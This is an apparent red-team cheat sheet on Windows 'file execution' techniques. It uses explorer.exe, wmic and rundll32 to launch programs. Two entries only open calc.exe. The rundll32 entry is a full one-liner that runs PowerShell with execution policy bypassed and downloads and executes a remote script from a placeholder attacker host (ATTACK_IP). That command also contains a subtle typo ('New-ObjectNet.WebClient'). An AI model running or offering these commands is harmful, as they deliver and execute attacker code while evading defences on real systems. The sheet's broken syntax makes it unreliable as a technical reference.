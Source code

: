 # File Execution

### Tools: File explorer, wmic, rundll32

## FILE EXPLORER

#### 1) 

    explorer.exe /root,"C:\windows\system32\calc.exe

## WMIC

#### 1) 

    wmic.exe process call create calc

## RUNDLL32

#### 1) 

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();new%20ActiveXobject("WScript.Shell").Run("Powershell -nop -exec bypass -c IEX(New-ObjectNet.WebClient).DownloadString('http://ATTACK_IP/script.ps1');");
